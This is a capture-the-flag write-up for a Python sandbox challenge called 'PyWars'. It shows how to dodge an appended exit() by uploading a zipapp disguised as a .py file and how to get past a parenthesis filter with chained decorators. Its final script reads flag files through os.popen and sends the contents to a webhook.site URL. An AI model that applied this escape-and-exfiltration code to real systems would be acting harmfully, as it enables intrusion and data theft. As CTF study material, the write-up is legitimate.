 # ♖ PyWars ♖
> Author: 堇姬Naup

## analyze
Go to read source code.
You can upload one python file, it will add `exit()\n` on your upload's file and use `python3 <your upload python file>`.
So if you can bypass code which it add. You will execute any python's code.

Let me look how to bypass.
Read python's document, we will read this
https://docs.python.org/3.14/library/zipapp.html

You can pack your `.py` to `.pyz`
If we add some bytes in front of `zip's magic number`, it still can be execute.
And then pyz can use `python3 script.pyz`.

```
00000000: 504b 0304 1400 0000 0000 9753 7f5a dc1b  PK.........S.Z..
00000010: 5faa 2e02 0000 2e02 0000 0b00 0000 5f5f  _.............__
```
So we write code at `script/__main__.py`, and pack it to pyz.

OK, let me review code.
It have filter, and just upload `.py`
But we can use `script.pyz.py`, it can bypass its filter. And if your upload's file format is `.pyz`, it will be executed no matter how its file extension

And it filter `(` and `)`, we can use python's decorator to bypass it.
For example:
```c
cmd2 = lambda a: "cat /app/flags/flag*"

@popen
@cmd2
class flag:pass
```

This code is `popen("cat /app/flags/flag*")`
No curl or wget, so we use `urllib.request`, and send flag on your server.


## script
run.sh
```sh
python3 -m zipapp script
mv script.pyz script.pyz.py
```

script/\_\_main\_\_.py
```py
from os import popen
from urllib.request import urlopen

url = "https://webhook.site/5399367e-260a-4a67-bfbc-575f6aaeb333/?flag="

cmd2 = lambda a: "cat /app/flags/flag*"
func2 = lambda f: [x[:-1] for x in f][0]

@func2
@popen
@cmd2
class flag:pass

flagurl = url + flag
urls = lambda f: flagurl

@urlopen
@urls
class requestf:pass
```

